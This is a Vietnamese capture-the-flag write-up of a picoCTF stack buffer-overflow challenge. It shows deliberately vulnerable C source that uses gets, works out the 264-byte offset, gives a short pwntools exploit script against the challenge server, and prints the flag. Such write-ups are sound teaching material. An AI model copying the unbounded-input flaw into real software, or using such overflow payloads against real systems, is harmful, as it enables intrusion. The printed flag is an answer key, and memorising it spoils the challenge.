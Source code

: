 **1. Tìm lỗi**

   Ta có file source như sau: 

```
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}
```
   
    Ta có câu lệnh gets và `system("cat flag.txt");` được trong câu lệnh if -> Nghĩ đến lỗi bof
    Sử dụng lệnh 'checksec' ta có như sau: 

    ![checksec.png](photo/checksec.png)

    Ta thấy CANARY đang disabled -> Có thể khai thác qua lỗ hổng bof

**2. Ý tưởng**

   Ta tận dụng lỗ hổng bof để nhập tràn từ biến clutter đến biến code rồi chèn giá trị thỏa mãn vào

**3. Viết script**

   Dùng lệnh 'file' để kiểm tra file thực thi

   ![file.png](photo/file.png)

   Ta thấy là file 64bit

   ![clutter.png](photo/clutter.png)

   Địa chỉ của biến clutter là: rbp - 0x110

   ![code.png](photo/code.png)

   Địa chỉ biến code là: rbp - 0x8

   Vậy khoảng cách từ biến clutter đến biến code là: 0x110 - 0x8 = 264
   Giá trị của GOAL là: 0xdeadbeef

   Vậy ta có script như sau: 

```
from pwn import *

r = remote("mars.picoctf.net", 31890)

payload = b'a'*264 + p64(0xdeadbeef)
r.sendline(payload)
r.interactive()
```

**4. Lấy flag**

   ![flag.png](photo/flag.png)

   Flag: picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
